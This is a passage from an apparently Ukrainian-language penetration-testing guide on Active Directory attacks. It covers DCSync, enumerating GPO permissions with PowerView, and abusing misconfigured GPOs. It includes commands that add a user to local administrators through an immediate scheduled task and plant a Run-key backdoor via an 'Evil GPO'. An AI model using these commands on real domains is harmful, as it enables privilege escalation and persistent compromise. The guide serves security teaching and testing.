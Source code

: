 Атака DCSync використовує специфічні дозволи реплікації в домені, щоб імітувати Domain Controller та синхронізувати дані, включно з обліковими даними користувачів. Ця потужна техніка вимагає дозволів типу `DS-Replication-Get-Changes`, що дозволяє зловмисникам витягувати конфіденційну інформацію з AD-середовища без прямого доступу до контролера домену. [**Learn more about the DCSync attack here.**](../dcsync.md)

## Делегування GPO <a href="#gpo-delegation" id="gpo-delegation"></a>

### Делегування GPO

Делегований доступ для управління Group Policy Objects (GPOs) може створювати значні ризики безпеки. Наприклад, якщо користувачу `offense\spotless` делеговано права управління GPO, він може мати такі привілеї, як **WriteProperty**, **WriteDacl** та **WriteOwner**. Ці дозволи можуть бути зловживані в шкідливих цілях, як виявлено за допомогою PowerView: `bash Get-ObjectAcl -ResolveGUIDs | ? {$_.IdentityReference -eq "OFFENSE\spotless"}`

### Перелічення дозволів GPO

Щоб виявити некоректно налаштовані GPO, можна зв'язати cmdlet-и PowerSploit. Це дозволяє знайти GPO, якими конкретний користувач має права керувати: `powershell Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "OFFENSE\spotless"}`

**Комп'ютери, до яких застосовано певну політику**: Можна визначити, до яких комп'ютерів застосовується конкретний GPO, що допомагає зрозуміти масштаби потенційного впливу. `powershell Get-NetOU -GUID "{DDC640FF-634A-4442-BC2E-C05EED132F0C}" | % {Get-NetComputer -ADSpath $_}`

**Політики, застосовані до певного комп'ютера**: Щоб побачити, які політики застосовані до конкретного комп'ютера, можна використати `Get-DomainGPO`.

**OUs, до яких застосовано певну політику**: Визначення organizational units (OUs), які підпадають під дію певної політики, можна зробити за допомогою `Get-DomainOU`.

Ви також можете використати інструмент [**GPOHound**](https://github.com/cogiceo/GPOHound) для перелічення GPO і пошуку в них проблем.

### Зловживання GPO - New-GPOImmediateTask

Некоректно налаштовані GPO можуть бути використані для виконання коду, наприклад, створенням immediate scheduled task. Це може бути використано для додавання користувача до локальної групи administrators на уражених машинах, суттєво підвищуючи привілеї:
```bash
New-GPOImmediateTask -TaskName evilTask -Command cmd -CommandArguments "/c net localgroup administrators spotless /add" -GPODisplayName "Misconfigured Policy" -Verbose -Force
```
### GroupPolicy module - Зловживання GPO

Модуль GroupPolicy, якщо встановлений, дозволяє створювати та прив'язувати нові GPOs, а також встановлювати налаштування, такі як значення реєстру для виконання backdoors на уражених комп'ютерах. Цей метод вимагає оновлення GPO та входу користувача в систему для виконання:
```bash
New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=domain,DC=io"
Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min \\dc-2\software\pivot.exe" -Type ExpandString
```
### SharpGPOAbuse - Abuse GPO
